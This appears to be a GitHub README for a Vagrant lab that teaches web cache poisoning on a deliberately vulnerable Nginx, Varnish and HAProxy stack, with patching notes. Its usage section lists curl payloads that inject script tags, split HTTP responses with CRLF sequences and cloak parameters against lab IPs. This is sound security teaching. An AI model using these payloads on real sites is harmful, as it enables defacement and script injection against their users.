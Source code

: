 # Cache Poisoning Lab

***Abioye Oyatoye***

This project is a Vagrant-based local lab designed to explore cache poisoning vulnerabilities, exploit them, and learn how to patch them. It simulates a web application stack with a web server, caching server, load balancer, and attacker machine, providing hands-on experience with cybersecurity concepts like cache key manipulation, HTTP response splitting, and parameter cloaking.

## Project Overview

The lab replicates a realistic web stack to study cache poisoning:

- **Web Server**: Nginx serving static and dynamic content.
- **Caching Server**: Varnish as a reverse proxy with caching capabilities.
- **Load Balancer**: HAProxy distributing traffic.
- **Attacker Machine**: A VM for simulating attacks.
- **Victim Client**: Your host machine to observe the effects.

The setup intentionally introduces vulnerabilities, demonstrates exploitation techniques, and then applies patches to secure the environment.

## Topology

Below is the network topology of the lab:

```mermaid
graph TD
    subgraph Internet[Internet]
        VC[Victim Client<br>Your Host]:::client
        AM[Attacker Machine<br>192.168.50.40]:::attacker
    end
    VC -->|HTTP Requests| LB[Load Balancer Tier<br>HAProxy<br>192.168.50.30]:::loadbalancer
    AM -->|Malicious Requests| LB
    LB --> CS[Caching Tier<br>Varnish<br>192.168.50.20]:::cache
    CS --> WS[Application Tier<br>Nginx Web Server<br>192.168.50.10]:::webserver

    classDef client fill:#f9f,stroke:#333,stroke-width:2px;
    classDef attacker fill:#fdd,stroke:#f00,stroke-width:2px;
    classDef loadbalancer fill:#bbf,stroke:#333,stroke-width:2px;
    classDef cache fill:#bfb,stroke:#333,stroke-width:2px;
    classDef webserver fill:#bfb,stroke:#333,stroke-width:2px;
```

## Prerequisites

Vagrant
VirtualBox (or another Vagrant provider)
Basic knowledge of Linux, networking, and HTTP

## Installing Vagrant on Window

Read, download and install vagrant [here](https://www.geeksforgeeks.org/what-is-vagrant/)

## SnapShot on Installing VirtualBox on Windows System

Go download VirtualBox, go to the official site virtualbox.org and download the latest version for windows.

![Alt Text](https://media.geeksforgeeks.org/wp-content/uploads/20200123114435/VirtualBox-Windows-Download.png)

Then follow the step by step guide [Here](https://www.geeksforgeeks.org/how-to-install-virtualbox-on-windows/)

## Setup Instructions

Clone the Repository:

```bash
git clone git@github.com:Abwonder/Aboiye-DevSecOps-Projects.git
cd cache-poisoning-lab
```

Start the Lab:

```bash
vagrant up
```

This provisions four VMs: web, cache, lb, and attacker.
Access the Components:
    Web Server: 192.168.50.10
    Caching Server: 192.168.50.20
    Load Balancer: 192.168.50.30 (entry point)
    Attacker: 192.168.50.40

Usage
Exploring Vulnerabilities

**Cache Key Manipulation:**

1. From the attacker VM

```bash
curl -H "Host: example.com" "<http://192.168.50.30/dynamic.php?user=><script>alert('Hacked')</script>"
```

2. Test as victim

```bash
curl "http://192.168.50.30/dynamic.php"
```

3. HTTP Response Splitting

```bash
curl -H "Host: example.com" "<http://192.168.50.30/dynamic.php?user=Alice%0d%0aContent-Length:%200%0d%0a%0d%0a><h1>Defaced!</h1>"
```

4. Parameter Cloaking

```bash
curl -H "Host: example.com" "<http://192.168.50.30/dynamic.php?user=Normal;user=><script>alert('XSS')</script>"
```

5. Unkeyed Headers

```bash
curl -H "Host: example.com" -H "Accept-Encoding: gzip" "<http://192.168.50.30/dynamic.php?user=><h1>Poisoned</h1>"
```

## Patching Vulnerabilities

There is another whole section one fixing the vulnerabilities, the link to the repository holding the vagrant with the patched vulnerabilities can be cloned from [here]()

Re-provision VMs with updated configs:

```bash
vagrant provision web
vagrant provision cache
vagrant provision lb
```

Retest attacks to verify fixes (see configuration details in the Vagrantfile) - from the link above.

Files

Vagrantfile: Defines and provisions the VMs with initial vulnerable configs and patched versions.
README.md: This file.

## Learning Objectives

Understand how caching works in a web stack.
Exploit common cache poisoning techniques.
Implement mitigations like input sanitization, cache key normalization, and header validation.

## Patching Details

Nginx: Sanitizes input with htmlspecialchars and adds Cache-Control: no-store.
Varnish: Keys on headers, skips caching dynamic content, respects backend cache directives.
HAProxy: Rejects malformed headers and rate-limits requests.

Contributing

Feel free to fork this repo, enhance the lab (e.g., add CDN caching), and submit pull requests!
License

MIT License - feel free to use and modify this lab for educational purposes.
